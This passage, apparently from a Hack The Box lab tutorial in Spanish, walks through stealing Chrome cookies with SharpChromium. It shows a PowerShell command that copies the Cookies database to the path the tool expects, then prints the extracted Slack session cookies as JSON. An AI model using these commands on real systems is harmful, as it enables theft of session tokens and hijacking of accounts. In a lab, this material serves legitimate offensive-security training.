 
Obtuvimos un error porque la ruta del archivo de cookies que contiene la base de datos está codificada en [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), y la versión actual de Chrome usa una ubicación diferente.

Podemos modificar el código de `SharpChromium` o copiar el archivo de cookies a donde `SharpChromium` está buscando.

`SharpChromium` está buscando un archivo en `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, pero el archivo real está ubicado en `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies` con el siguiente comando copiaremos el archivo a la ubicación donde `SharpChromium` lo está esperando.

### Copy Cookies to SharpChromium Expected Location

```r
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

Ahora podemos usar Invoke-SharpChromium nuevamente para obtener una lista de cookies en formato JSON.

### Invoke-SharpChromium Cookies Extraction

```r
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>
```